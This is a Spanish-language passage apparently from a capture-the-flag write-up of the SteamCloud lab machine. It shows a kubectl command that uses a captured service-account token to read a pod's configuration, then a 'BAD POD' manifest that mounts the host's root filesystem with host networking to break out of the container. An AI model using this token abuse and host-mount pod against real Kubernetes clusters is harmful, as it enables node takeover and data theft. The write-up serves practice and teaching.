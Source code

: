 En este caso hemos hecho uso de la función get pod para sacar información del nodo en ejecución. 

![2023-02-16_21-00 1.png](/opt/bly-coder.github.io/assets/images/steamcloud/2023-02-16_21-00 1.png)
La tercera linea nos indica que podemos obtener, crear y listar pods. El siguiente paso sera examinar un el POD nginx para saber que imagen usa, posteriormente esta será usada en la creación de un BAD POD.

```bash
❯ kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$(cat token)                                                                       
apiVersion: v1                                                                                                                                                                               
kind: Pod                                                                                                                                                                                    
metadata:                                                                                                                                                                                    
  annotations:                                                                                                                                                                               
    kubectl.kubernetes.io/last-applied-configuration: |                                                                                                                                      
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"nginx","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","imagePullPolicy":"Never","name":"ngin
x","volumeMounts":[{"mountPath":"/root","name":"flag"}]}],"volumes":[{"hostPath":{"path":"/opt/flag"},"name":"flag"}]}}                                                                      
  creationTimestamp: "2023-02-16T17:12:01Z"                                                                                                                                                  
  name: nginx                                                                                                                                                                                
  namespace: default                                                                                                                                                                         
  resourceVersion: "510"                                                                                                                                                                     
  uid: e2f71ae5-6d48-4f43-ad2a-3d2a2851162a                                                                                                                                                  
spec:                                                                                                                                                                                        
  containers:                                                                                                                                                                                
  - image: nginx:1.14.2                                                                                                                                                                      
    imagePullPolicy: Never      
```

Vemos que la imagen es nginx:1.14.2 lo suiguiente será construir un archivo YAML que contendrá el BAD POD.

```yml
apiVersion: v1
kind: Pod
metadata:
  name: pod-bly
  namespace: default
spec:
  containers:
  - name: pod-bly
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```